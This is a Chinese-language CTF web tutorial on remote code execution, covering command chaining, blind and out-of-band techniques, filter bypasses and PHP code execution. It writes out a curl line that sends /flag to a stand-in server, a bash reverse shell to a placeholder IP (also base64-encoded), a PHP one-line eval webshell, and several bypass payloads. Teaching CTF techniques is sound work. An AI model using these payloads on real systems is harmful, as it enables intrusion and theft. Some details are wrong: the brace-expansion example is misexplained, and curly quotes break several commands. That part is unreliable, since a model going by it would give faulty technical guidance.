# CTF Web赛事基础：P68：远程代码执行与联合执行 🚀

在本节课中，我们将要学习CTF Web方向中一个非常核心的漏洞类型：远程代码执行。我们将从最基础的命令联合执行开始，逐步深入到命令执行、代码执行以及各种绕过过滤的技巧，并通过实例帮助初学者理解。



## 命令联合执行

上一节我们介绍了远程代码执行的基本概念，本节中我们来看看如何将多条命令组合在一起执行，即命令联合执行。

在Linux Shell中，有多种符号可以将多条命令连接起来，实现连续执行。

以下是几种常见的命令联合执行方式：

*   **分号 `;`**：这是最常用的方式，表示**无条件**的顺序执行。无论前一条命令是否执行成功，都会继续执行下一条命令。例如：`ping 127.0.0.1; ls -l`。
*   **逻辑与 `&&`**：表示**条件**执行。只有**前一条命令执行成功**（返回值为0），才会执行后一条命令。例如：`mkdir test && cd test`。
*   **逻辑或 `||`**：同样表示**条件**执行。只有**前一条命令执行失败**（返回值非0），才会执行后一条命令。例如：`cat /etc/passwd || echo “File not found”`。
*   **管道符 `|`**：将前一个命令的**输出结果**作为后一个命令的**输入参数**。例如：`echo “ABC” | md5sum`，这里字符串“ABC”被传递给了`md5sum`命令进行计算。
*   **换行符**：在命令行中直接按回车换行，也相当于开始执行一条新命令。但需要注意的是，在某些编程语言（如PHP）的代码执行上下文中，换行符可能无法直接用于联合执行，需要具体测试。



除了联合执行，还有一种**内联执行**的方式，我们稍后会详细介绍。






## 命令执行实战与无回显处理


掌握了命令联合执行后，我们就可以尝试一些基础的CTF题目。例如，ACTF2020的`EXEC`题目就是一个非常基础的命令执行漏洞，可以通过输入`127.0.0.1;cat flag`来获取flag。

在实际攻击中，我们经常会遇到**无回显**的命令执行漏洞。即命令成功执行了，但我们无法直接看到命令的输出结果。

以下是两种主要的解决思路：



*   **外带数据 (OOB - Out-of-Band)**：将命令执行的结果发送到我们可控的服务器上。
    *   **HTTP请求带出**：使用`curl`或`wget`命令，将结果作为URL参数或请求的一部分发送到我们的Web服务器。例如：`cat /flag | curl -X POST -d @- http://your-server.com/`。
    *   **反弹Shell (Reverse Shell)**：让目标服务器主动连接我们的监听端口，从而获得一个交互式的Shell。这是更强大的方法。
        *   首先，在自己的服务器上使用`nc`监听一个端口：`nc -lvnp 12345`。
        *   然后，在存在漏洞的地方执行反弹Shell命令。一个常见的bash反弹命令是：`bash -c ‘bash -i >& /dev/tcp/your-ip/12345 0>&1’`。
        *   如果命令中有特殊字符被过滤，可以尝试将命令写入文件后下载执行，或进行Base64编码：`echo ‘YmFzaCAtaSA+JiAvZGV2L3RjcC95b3VyLWlwLzEyMzQ1IDA+JjE=’ | base64 -d | bash`。

*   **盲注 (Blind Injection)**：当目标无法出网（不能连接外部网络）时，可以使用时间盲注。
    *   原理：通过命令执行结果来影响程序的响应时间。例如，判断`/flag`文件的第一位是否是字母‘A’：`if [ $(head -c 1 /flag) == “A” ]; then sleep 5; fi`。如果响应延迟了5秒，则说明第一位是‘A’。



## 命令执行绕过技巧

在实际CTF题目或安全防护中，通常会存在各种过滤规则，阻止我们直接执行敏感命令（如`cat`、`flag`、空格等）。因此，绕过这些过滤是关键。



### 空格绕过

当空格被过滤时，可以用以下字符替代：

*   **`${IFS}`**：`IFS`是Shell的内部字段分隔符，默认包含空格、制表符、换行符。使用`cat${IFS}flag.php`。
*   **`$IFS$9`**：`$9`是第9个参数，通常为空，组合起来起到分隔作用。`cat$IFS$9flag.php`。
*   **重定向符`<>`**：`cat<>flag.php`，`<`用于输入重定向。
*   **制表符`%09` (URL编码)**：在Web环境下，可以使用其URL编码形式。`cat%09flag.php`。

### 关键字绕过

当`cat`、`flag`等关键字被过滤时，可以尝试以下方法：



*   **转义字符**：在关键字中插入反斜杠`\`，有时能绕过简单的字符串匹配。`ca\t fl\ag.php`。
*   **拼接**：使用变量或字符串拼接来重组关键字。
    *   **变量拼接**：
        ```bash
        a=“fl”; b=“ag”; cat $a$b.php
        ```
    *   **字符串直接拼接**（某些环境如PHP、Python支持）：
        ```bash
        cat ‘fl’‘ag’.php
        ```
*   **编码**：将命令编码后解码执行。
    *   **Base64**：
        ```bash
        echo ‘Y2F0IGZsYWcucGhw’ | base64 -d | bash
        ```
    *   **Hex**：
        ```bash
        echo ‘63617420666c61672e706870’ | xxd -r -p | bash
        ```
*   **通配符**：使用`*`或`?`来匹配文件名。
    *   `cat fl*`：匹配以`fl`开头的文件。
    *   `cat fl?g.php`：`?`匹配一个字符。
    *   `cat fl[a-z]g.php`：匹配`fl`和`g.php`中间是a-z单个字母的文件。
    *   `cat fl{ag,ag,ag}.php`：分别尝试`flag.php`，`flbg.php`，`flcg.php`等。
*   **内联执行**：将一个命令的执行结果作为另一个命令的参数。
    *   **反引号** ```：`cat `ls`` 会先执行`ls`，然后用其结果（如`flag.php`）作为`cat`的参数。
    *   **`$()`**：与反引号功能相同，更推荐使用。`cat $(ls)`。
*   **命令替换**：使用其他具有类似功能的命令。
    *   读取文件：`more`、`less`、`head`、`tail`、`tac`、`nl`、`od`、`base64`等。
    *   例如：`base64 flag.php` 可以读取文件内容并以Base64形式输出。

**实战练习**：可以尝试完成`[GYCTF2019]Ping Ping Ping`这道题目，它综合运用了多种绕过技巧。

## 代码执行漏洞

代码执行漏洞比命令执行更深入一层，它允许攻击者执行服务器端的**编程语言代码**（如PHP、Python代码），危害极大。

### 基础：`eval`函数



PHP中的`eval()`函数是最典型的例子，它会将传入的字符串当作PHP代码来执行。
```php
<?php eval($_GET[‘code’]); ?>
```
如果用户可控`code`参数，例如传入`?code=phpinfo();`，就会执行`phpinfo()`函数。

著名的“一句话木马”就是利用了这个原理：
```php
<?php @eval($_POST[‘cmd’]); ?>
```
客户端通过向`cmd`参数传递精心构造的PHP代码字符串，就可以在服务器上执行任意操作。




### 进阶：无字母数字WebShell


在CTF中，题目往往会对传入的代码进行严格过滤。一个经典的挑战是**无字母数字WebShell**，即不允许`code`参数中包含任何字母和数字。


**解题思路**：利用PHP的位运算（如异或`^`、取反`~`）和字符串动态函数调用的特性，从非字母数字的字符中“构造”出我们想要的函数名和参数。

1.  **动态函数调用**：在PHP中，`$a=“phpinfo”; $a();`可以调用`phpinfo()`函数。
2.  **异或/取反构造字符串**：通过异或或取反运算，生成目标字符串（如`phpinfo`）的Payload。
    *   例如，`“{“^”<”` 的结果是字母`G`。通过一系列这样的运算，可以拼接出任意函数名。
3.  **最终Payload**：构造出的Payload形式可能类似：`?code=(~%8F%97%8F%96%91%99%90)();`，这串URL编码的字符取反后就是`phpinfo`，然后被动态调用。


### 极限绕过实例



考虑一个极端题目，它过滤了：字母数字、常见符号（`^`、`~`、`&`、`|`）、括号、引号、`$`、`.`等，并且长度限制在18字符以内。

**解法**：利用PHP的**短标签**和**反引号执行命令**。
```
?code=<?=`/???/???%20/???/???/????/*`;
```
*   `<?=`：这是PHP短标签，相当于`<?php echo ... ?>`。
*   `` `...` ``：反引号，执行其中的Shell命令。
*   `/???/???`：通配符，匹配`/bin/cat`。
*   `%20`：空格。
*   `/???/???/????/*`：匹配`/usr/bin/`或`/var/www/*`等路径下的文件，最终可能匹配到`/flag`。
*   整个Payload会尝试执行类似`/bin/cat /flag`的命令，并通过短标签将结果输出。




## 总结






本节课中我们一起学习了CTF Web中远程代码执行的核心知识。

我们从**命令联合执行**的几种方式（`;`、`&&`、`||`、`|`）开始，理解了如何串联多条命令。接着，我们探讨了**命令执行漏洞**的实战，并重点学习了在**无回显**情况下的两种重要技术：**外带数据（OOB）**和**时间盲注**。




然后，我们深入研究了**绕过过滤**的技巧，包括绕过空格（`${IFS}`、`<>`）和绕过关键字（拼接、编码、通配符、内联执行、命令替换），这些是解决大部分命令执行题目的关键。

最后，我们进入了更底层的**代码执行漏洞**，以PHP的`eval()`为例，分析了其原理。并挑战了高难度的**无字母数字WebShell**问题，学习了通过位运算构造代码的思路，以及一个利用PHP短标签和Shell通配符的极限绕过案例。



掌握这些从基础到进阶的知识点，将帮助你更好地理解和解决CTF中Web方向的代码执行类题目。